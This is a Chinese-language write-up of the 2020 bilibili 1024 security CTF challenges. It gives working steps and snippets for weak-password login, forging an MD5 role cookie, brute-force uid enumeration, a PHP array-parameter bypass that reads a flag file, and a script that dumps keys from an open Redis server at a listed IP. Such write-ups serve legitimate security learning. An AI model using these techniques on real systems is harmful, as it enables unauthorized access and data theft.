+++
title = "2020-bilibili-sec1024"
date = "2020-10-25T23:09:17+08:00"
author = "AyalaKaguya"
summary = '摘要：2020年bilibili 1024程序员节的write up。'
tags = [
    "ctf",
    "bilibili",
    "sec1024",
]
categories = [
    "ctf",
]
keywords = [
    "ctf",
    "bilibili",
    "sec1024",
]
+++

> 本记录由 TePuint Club 赞助完成，原始链接：[GitHub](https://github.com/AyalaKaguya/2020-bilibili-sec1024)

> ❗ 注意
> 
> 如果你没有达到70分请不要往下查看

活动地址：[sec1024](https://security.bilibili.com/sec1024/)

## 第一题 - 页面的背后是什么？

打开DevTool审查元素，在`<input>`中找到data

## 第二题 - 真正的秘密只有特殊的设备才能看到

修改浏览器的User-Agent为 `bilibili Security Browser`，然后刷新网页，就可以看到flag了。

## 第三题 - 密码是啥？

就是弱口令，完全靠猜，用户名 `admin` ，密码 `bilibili` 。

或者直接在Console中输入：

```javascript
$.ajax({
    url: "api/ctf/3",
    type: "post",
    contentType: "application/json",
    dataType: "json",
    data: JSON.stringify({
        username: "admin",
        passwd: "bilibili",
    }),
    success: function (data) {
        console.log(data.data)
    }
})
```

## 第四题 - 对不起，权限不足～

cookies中 `role` 对应的值为user的MD5，所以将这个值改为 `Administrator` 的MD5，即 `7b7bc2512ee1fedcd76bdc68926d4f7b` ，然后刷新网页，就可以看到flag了。

## 第五题 - 别人的秘密

使用Console向后穷举，我也不知道那个uid哪里来的。

在Console中输入：

```javascript
get(100336889) //这里每个人有可能不一样，请在网页中查找
function get(uid) {
    $.ajax({
        url: "api/ctf/5?uid=" + uid,
        type: "get",
        success: function (data) {
            if (data.code == 200) {
                console.log(data.data)
            } else {
                get(uid + 1)
            }
        }
    })
}
```

## 第十题 - 结束亦是开始

你没看错，这里是第十题，但这一题的入口在第六题，也就是第六题做完是第十题的答案。

>注意：每个人的靶机不一定相同，请注意更换IP

1. 访问 `http://120.92.151.189/blog/test.php` （扫目录扫出来的）
2. 将网页中所有的内容复制粘贴到Console中，获取str1和str2
```javascript
 var str1 = "\u7a0b\u5e8f\u5458\u6700\u591a\u7684\u5730\u65b9";
 var str2 = "bilibili1024havefun";
 console.log()
```
3. 将str1进行Unicode转中文得到 `程序员最多的地方` 即 GitHub
4. 在GitHub搜索str2,即"bilibili1024havefun"
5. 在搜索结果中找到与end有关的那个 [传送门](https://github.com/interesting-1024/end/blob/main/end.php)
6. 分析PHP文件,id为不含1的数组，路径不清楚要猜
```php
 <?php

    //filename end.php

    $bilibili = "bilibili1024havefun";

    $str = intval($_GET['id']);
    $reg = preg_match('/\d/is', $_GET['id']);

    if (!is_numeric($_GET['id']) and $reg !== 1 and $str === 1) {
        $content = file_get_contents($_GET['url']);

        //文件路径猜解
        if (false) {
            echo "还差一点点啦～";
        } else {
            echo $flag;
        }
    } else {
        echo "你想要的不在这儿～";
    }
    ?>
```
7. 构造URL，使满足 `!is_numeric($_GET['id']) and $reg !== 1 and $str === 1`
8. 猜URL，访问 `http://120.92.151.189/blog/end.php?id[]=&url=./flag.txt` 得到一张图片
9. 图片另存为，并用npp或者记事本打开,就可以在文件末尾找到flag

## 第八题 - Redis

在做本题时可能会遇到redis连接不上的问题，我们使用Python脚本进行轰炸

首先安装redis库：`!pip3 install redis`

接着执行以下Python脚本：

```python
import redis

serve = '45.113.201.36' #设置服务器IP地址

print('Connecting the Server ('+serve+') ...')
while True:
    try:
        r = redis.StrictRedis(host=serve, port=6379)
        keys = r.keys()
        print('We got the flag:')
        for key in keys:
            value = r.get(key)
            print(key, value)
        break
    except:
        print('Error: Connection timed out')
        pass
```